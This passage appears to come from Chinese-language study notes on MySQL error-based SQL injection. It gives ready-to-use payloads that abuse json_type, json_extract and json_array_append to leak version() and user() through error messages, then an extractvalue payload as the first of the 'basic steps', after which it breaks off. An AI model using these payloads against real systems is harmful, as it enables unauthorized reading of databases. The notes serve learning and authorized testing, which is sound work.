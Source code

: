 ##### d. json报错

* 版本属于[5.7.8,~]

###### ①json_type

* 获取json值的类型，当我们**传入的值不属于json格式**则报错

* json_type(version())

* 标准payload

  ```
  1' and json_type(version())%23 --+
  ```


###### ②json_extract

* json_extract(json_doc,path[,path])

* 从json_doc中读取数据，和path的参数匹配，第一个或第二个参数不是json格式就报错

  ```
  1' and json_extract(user(),'$.a') -- qwe
  1' and json_extract(user(),'$.a') # 
  
  1' and json_extract('[1,2,3]',user()) -- qwe
  
  ```

###### ③json_array_append

* json_array_append(json_doc,path,val[,path,val]...)，

* 将值**附加**到json文档中**指定数组的末尾**并**返回结果，**

* 报错输出原理和json_extract函数相同

  ```
  1' and json_array_append('[1,2,3]',user(),1) # 
  1' and json_array_append('[1,2,3]',user(),1) -- qwe
  ```

#### (3). 基本步骤

##### a.查看数据库版本

```
1' and extractvalue(1,concat(0x7e,(select version()),0x7e)) --+
```

<img src="../../images/8-20-morning/1. 查看数据库版本.png" alt="1. 查看数据库版本" style="zoom:67%;" />
